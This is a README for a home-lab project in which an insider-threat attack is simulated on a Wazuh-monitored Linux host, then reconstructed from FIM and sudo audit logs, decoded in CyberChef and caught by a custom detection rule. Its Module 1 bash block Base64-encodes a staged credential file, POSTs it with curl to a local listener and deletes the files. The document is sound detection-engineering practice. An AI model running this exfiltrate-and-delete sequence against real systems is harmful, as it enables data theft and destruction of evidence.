








<div align="center">

# 🕵️ Insider Threat Detection System

**Project 19 of 29 — Advanced Cyber Projects**

Full Attack-and-Defend Simulation (Kali + Wazuh + CyberChef)


A complete insider-threat attack chain — stage, obfuscate, exfiltrate, delete — executed end-to-end and reconstructed entirely from log evidence, with a genuine visibility gap in the deletion-detection rule diagnosed and compensated for, rather than hidden.

### [📑 Open the visual index](INDEX.md)

</div>

---

## 📑 Table of Contents

1. [At a Glance](#at-a-glance)
2. [Project Background](#project-background)
3. [Environment](#environment)
4. [Project Flow](#project-flow)
5. [Module 1 — Attack Simulation & FIM Threat Hunting](#module-1)
6. [Coverage Snapshot](#coverage-snapshot)
7. [Investigation Pipeline](#investigation-pipeline)
8. [Module 2 — Forensic Decoding & Detection Engineering](#module-2)
9. [MITRE ATT&CK Mapping](#mitre-mapping)
10. [Project Summary](#project-summary)
11. [Challenges & Fixes](#challenges-fixes)
12. [Scope & Limitations](#scope-limitations)
13. [What I Learned](#what-i-learned)
14. [Skills Demonstrated](#skills-demonstrated)
15. [Screenshot Index](#screenshot-index)
16. [Repo Structure](#repo-structure)

---

<a id="at-a-glance"></a>
## 📊 At a Glance

| 🧩 Modules | 🖼️ Screenshots | 📜 Custom Rules Written | 🎯 MITRE Techniques Mapped |
|:---:|:---:|:---:|:---:|
| **2** | **5** | **1 tested & verified** | **2** |

---

<a id="project-background"></a>
## 📖 Project Background

A simulated rogue employee accesses a confidential client database, disguises the file to avoid detection, sends it off the monitored network, and deletes the evidence — a complete, realistic insider-threat scenario run end-to-end on a live-monitored endpoint.

- **Module 1 — Attack Simulation & FIM Threat Hunting:** Execute the full attack chain, then reconstruct every stage from log evidence — including the one stage where the expected detection rule did not fire as designed.
- **Module 2 — Forensic Decoding & Detection Engineering:** Recover the exact exfiltrated content and write a custom rule that would catch this exact technique automatically in future.

> [!NOTE]
> The dedicated file-deletion detection rule did not fire, despite correct configuration. Rather than conceal this, the deletion was independently confirmed through a second log source (command-execution auditing) — and the gap itself became one of this project's most useful findings.

<div align="center">

### 🧩 Attack Chain at a Glance

<table>
<tr>
<td align="center" valign="top" width="20%">

**1️⃣ Stage**<br>
<sub>Confidential file<br>written to disk</sub>

</td>
<td align="center" valign="top" width="20%">

**2️⃣ Obfuscate**<br>
<sub>Base64-encode<br>under a decoy name</sub>

</td>
<td align="center" valign="top" width="20%">

**3️⃣ Exfiltrate**<br>
<sub>HTTP POST to<br>an external listener</sub>

</td>
<td align="center" valign="top" width="20%">

**4️⃣ Delete**<br>
<sub>Remove local<br>evidence</sub>

</td>
<td align="center" valign="top" width="20%">

**5️⃣ Reconstruct**<br>
<sub>Full timeline from<br>log evidence alone</sub>

</td>
</tr>
</table>

</div>

---

<a id="environment"></a>
## 🖧 Environment

| Item | Value |
|---|---|
| **SIEM Platform** | Wazuh Manager / Indexer / Dashboard |
| **Monitored Endpoint** | Linux host under FIM (`/root/Espionage`) |
| **Attack Tooling** | Kali Linux — `base64`, `curl`, `nc` |
| **Forensic Tool** | CyberChef — "From Base64" recipe |
| **Custom Rule File** | `local_rules.xml` |
| **Reporting Framework** | NIST SP 800-61 Incident Response Lifecycle |

---

<a id="project-flow"></a>
## ⏱️ Project Flow


<p align="center"><em>Colors distinguish each project stage — all stages complete.</em></p>

---

<a id="module-1"></a>
## 🔵 Module 1 — Attack Simulation & FIM Threat Hunting

**Objective:** Execute a realistic insider-threat attack chain against a monitored endpoint, then reconstruct every stage from log evidence alone — treating a detection gap as a finding to diagnose, not a result to hide.

### Step 1 — Stage, obfuscate, exfiltrate, delete ✅

```bash
echo 'CLIENT: Cyberster | ACCT: 4459 | PW: AdminPassword2026!' | \
  sudo tee /root/Espionage/Client_Database.txt

sudo base64 /root/Espionage/Client_Database.txt | \
  sudo tee /root/Espionage/system_cache.b64

sudo curl -X POST --data-binary @/root/Espionage/system_cache.b64 \
  http://127.0.0.1:8080

sudo rm -f /root/Espionage/*
```

### Step 2 — Confirm file creation and obfuscation via FIM ✅

<p align="center">
  <br>
  <em>Exhibit 1 — Wazuh Discover, <code>rule.id: 550</code>. Two FIM events showing <code>/root/Espionage/system_cache.b64</code> and <code>/root/Espionage/Client_Database.txt</code>, with SHA1 hash, mtime, and rule description "Integrity checksum changed," tagged MITRE T1565.001</em>
</p>

### Step 3 — Diagnose the deletion-rule gap and find compensating evidence ✅

The dedicated FIM deletion rule was queried directly and did not return a result for the deletion event, despite the underlying audit subsystem being correctly configured. Rather than treat this as a dead end, the sudo command-execution audit trail was queried instead — and returned an exact match.

<p align="center">
  <br>
  <em>Exhibit 2 — Wazuh Discover, <code>rule.id: 5402 AND data.command: *rm*</code>. One hit showing <code>data.command: /usr/bin/rm -f /root/Espionage/*</code> executed by the operator via sudo, confirming the anti-forensics deletion step with full command line and timestamp</em>
</p>

🎯 **Result:** All four attack stages were reconstructed from log evidence, including the one stage whose primary detection method did not fire.

| Attack Step | Evidence | Detection Method |
|---|---|---|
| Stage file | FIM rule 550 | Native (worked as expected) |
| Obfuscate (Base64) | FIM rule 550 | Native (worked as expected) |
| Exfiltrate | Listener capture + sudo audit | Network capture + command audit |
| Delete evidence | Sudo audit rule 5402 | **Compensating control** — dedicated deletion rule did not fire |

### 🔍 Analyst Note — Why Deletion Didn't Destroy the Evidence



Wazuh's FIM engine records file metadata at the moment a file is created or changed, and this record persists in the Manager's database independently of the file's later fate on disk. Separately, the OS's own command-execution logging records the exact command a user ran, regardless of whether the file-deletion-specific FIM rule also fires. An attacker who deletes a file removes it from the filesystem — not from either of these two independent logging layers.

---

<a id="coverage-snapshot"></a>
## 🌟 Coverage Snapshot

| 🛡️ Layer | ✅ Status | 📌 Detail |
|---|---|---|
| Attack Chain Executed | Complete | Stage → obfuscate → exfiltrate → delete, all four stages |
| FIM Creation/Modification | Native Detection | Rule 550 fired correctly on both staged files |
| FIM Deletion Rule | Gap Diagnosed | Did not fire — compensating control found and documented |
| Forensic Recovery | Complete | Exact exfiltrated content recovered via CyberChef |
| Custom Detection Rule | Deployed & Verified | Rule 100050, live-fire tested |

---

<a id="investigation-pipeline"></a>
## 🧭 Investigation Pipeline

From raw attack chain to a permanently deployed detection



---

<a id="module-2"></a>
## 🟢 Module 2 — Forensic Decoding & Detection Engineering

**Objective:** Recover the exact content that left the monitored environment, then engineer a permanent detection rule so this specific technique — staging a Base64-obfuscated file for exfiltration — triggers an immediate alert on any future occurrence.

### Step 4 — Decode the captured exfiltration payload ✅

<p align="center">
  <br>
  <em>Exhibit 3 — CyberChef "From Base64" recipe applied to the captured payload. Output: <code>CLIENT: Cyberster | ACCT: 4459 | PW: AdminPassword2026!</code> — confirming the exact content of the exfiltrated file</em>
</p>

This moves the finding from "a file was sent externally" to "this exact client data was sent externally" — the primary forensic proof of impact.

### Step 5 — Engineer a custom detection rule ✅

```xml
<group name="local,syscheck,">
  <rule id="100050" level="10">
    <if_sid>550</if_sid>
    <field name="file" type="pcre2">\.b64$</field>
    <field name="file" type="pcre2">/root/Espionage</field>
    <description>Suspicious .b64 encoded file created in Espionage directory
    - possible data staging for exfiltration</description>
    <mitre>
      <id>T1027</id>
    </mitre>
    <group>data_exfiltration,</group>
  </rule>
</group>
```

<p align="center">
  <br>
  <em>Exhibit 4 — <code>local_rules.xml</code> as deployed in the Wazuh Rules editor, showing rule 100050 chained on top of the parent FIM rule (<code>if_sid 550</code>), matching only <code>.b64</code> files inside <code>/root/Espionage</code>, at Level 10, tagged MITRE T1027</em>
</p>

The rule was set to **Level 10** deliberately — an encoded file appearing in a directory with no legitimate business reason to contain one has effectively no benign explanation once the parent FIM event and the filename/path conditions are all satisfied together.

### Step 6 — Verify the rule live-fires on a re-run of the attack ✅

<p align="center">
  <br>
  <em>Exhibit 5 — Wazuh Discover, <code>rule.id: 100050</code>. One hit confirming the custom rule fired against <code>/root/Espionage/system_cache.b64</code>, verifying the rule is live, syntactically valid, and functioning as designed</em>
</p>

🎯 **Result:** The custom rule closes a detection gap that previously required a human analyst to manually notice an oddly-named file — it now surfaces automatically the moment the file is written, chained onto the parent FIM rule so it inherits that rule's reliability without duplicating its logic.

| Rule ID | Description | MITRE Technique | Status |
|:---:|---|---|:---:|
| `100050` | `.b64` file created in staging directory | T1027 — Obfuscated Files or Information | ✅ Live-fire verified |

---

<a id="mitre-mapping"></a>
## 🎯 MITRE ATT&CK Mapping

| Stage | Technique | Tactic |
|---|---|---|
| File staging & obfuscation | [T1565.001](https://attack.mitre.org/techniques/T1565/001/) — Stored Data Manipulation | Impact |
| Base64-encoded staging file | [T1027](https://attack.mitre.org/techniques/T1027/) — Obfuscated Files or Information | Defense Evasion |

---

<a id="project-summary"></a>
## 📝 Project Summary

| Module | Tooling | Key Finding |
|---|---|---|
| Attack Simulation & FIM Threat Hunting | Kali, Wazuh FIM, sudo audit | Full attack chain reconstructed; deletion-rule gap diagnosed and compensated |
| Forensic Decoding & Detection Engineering | CyberChef, `local_rules.xml` | Exact exfiltrated content recovered; permanent detection rule deployed and verified |

---

<a id="challenges-fixes"></a>
## ⚠️ Challenges & Fixes

| ❌ Challenge | ✅ Fix |
|---|---|
| The dedicated FIM deletion rule did not fire despite correct `whodata` configuration and a confirmed audit watch rule | Queried the sudo command-execution audit trail (rule 5402) as an independent, compensating evidence source |
| A single detection mechanism for a critical event type (file deletion) proved to be a single point of failure | Documented this as a genuine finding: command-level auditing is a necessary compensating control, not a nice-to-have |

---

<a id="scope-limitations"></a>
## 🚧 Scope & Limitations

- **Deletion-rule root cause not fully resolved:** The dedicated FIM deletion rule's failure to fire was diagnosed as an environment-specific limitation and worked around, not definitively root-caused to a single configuration line.
- **Single endpoint:** The attack and detection both ran on one monitored host; lateral movement across multiple hosts is out of scope here.
- **Simulated exfiltration target:** The HTTP POST exfiltration target was a local listener, not a real external destination — representative of the technique, not a live internet exfiltration.

---

<a id="what-i-learned"></a>
## 🧠 What I Learned

- **A verified detection is worth more than a configured one.** The deletion rule's `whodata` configuration looked correct at every check, yet still didn't fire — only a live test closes that gap between "configured" and "confirmed working."
- **Command-level audit logs are a necessary compensating control.** This incident would have had an unverifiable deletion step without the sudo audit trail — a mature SOC should never depend on a single log source for a critical event category.
- **Deletion doesn't destroy evidence, it just removes the map.** FIM metadata and command-execution logs both persist independently of the file's fate on disk — understanding this is what let the investigation continue past an apparent dead end.

---

<a id="skills-demonstrated"></a>
## 🛠️ Skills Demonstrated

- Executing a realistic, multi-stage insider-threat attack chain for detection-testing purposes
- Reconstructing an attack timeline from FIM and audit log evidence alone
- Diagnosing a non-firing detection rule and locating an independent compensating control
- Forensic Base64 decoding to recover exact exfiltrated content
- Engineering a custom, MITRE-mapped detection rule chained onto a parent FIM rule
- Structuring findings around NIST SP 800-61 incident-response phases

---

<a id="screenshot-index"></a>
## 🖼️ Screenshot Index

| # | File | Shows |
|:---:|---|---|
| 1 | `Exhibit1_fim_creation_alerts.png` | FIM creation alerts (rule 550) for both staged files |
| 2 | `Exhibit2_sudo_audit_deletion_log.png` | Sudo audit log (rule 5402) confirming the deletion command |
| 3 | `Exhibit3_cyberchef_base64_decode.png` | CyberChef Base64 decode — input and recovered plaintext |
| 4 | `Exhibit4_custom_rule_100050_xml.png` | Custom rule 100050 source in `local_rules.xml` |
| 5 | `Exhibit5_rule_100050_live_fire.png` | Custom rule 100050 confirmed firing on live re-test |

---

<a id="repo-structure"></a>
## 📁 Repo Structure

```text
project-19-insider-threat-detection-system/
|-- README.md
|-- INDEX.md
`-- screenshots/
    |-- Exhibit1_fim_creation_alerts.png
    |-- Exhibit2_sudo_audit_deletion_log.png
    |-- Exhibit3_cyberchef_base64_decode.png
    |-- Exhibit4_custom_rule_100050_xml.png
    `-- Exhibit5_rule_100050_live_fire.png
```

<div align="center">

🕵️ **[Wazuh](https://wazuh.com)** · 🔓 **[CyberChef](https://gchq.github.io/CyberChef/)** · 🎯 **[MITRE ATT&CK](https://attack.mitre.org)** · 📘 **[NIST SP 800-61](https://csrc.nist.gov/pubs/sp/800/61/r2/final)**

</div>
